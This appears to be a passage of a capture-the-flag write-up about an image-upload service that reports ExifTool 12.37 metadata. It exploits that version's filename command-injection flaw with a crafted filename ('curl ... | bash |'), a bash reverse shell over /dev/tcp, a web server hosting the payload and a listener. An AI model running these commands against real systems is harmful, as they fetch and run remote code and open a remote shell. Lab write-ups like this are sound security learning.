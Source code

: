 Uploading an image will result in a report that you can view.  

**Example**

```bash
ExifTool Version Number         : 12.37
File Name                       : image.jpg
Directory                       : .
File Size                       : 335 bytes
File Modification Date/Time     : 2023:01:23 20:03:07+00:00
File Access Date/Time           : 2023:01:23 20:03:07+00:00
File Inode Change Date/Time     : 2023:01:23 20:03:07+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
DjVu Version                    : 0.24
Spatial Resolution              : 300
Gamma                           : 2.2
Orientation                     : Horizontal (normal)
Warning                         : Ignored invalid metadata entry(s)
Image Width                     : 1
Image Height                    : 1
Encoding Process                : Extended sequential DCT, arithmetic coding
Bits Per Sample                 : 8
Color Components                : 1
Image Size                      : 1x1
Megapixels                      : 0.000001
```

The first line shows us the used ExifTool Version which is 12.37. If you look this up you'll come across [Command Injection: Exiftool before 12.38](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)

# Exploitation

Using the discovered vulnerability we will try to gain a shell on our target.

## Exiftool 12.37

```bash
# Generate malicious filename
cp image.jpg 'curl 10.10.14.71 | bash |'
# Generate an index.html containing our reverse shell code
cat index.html        
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.71/4444 0>&1"
# Host a webserver
python -m http.server 80
# In another tab create a listener
pwncat-cs -lp 4444
```
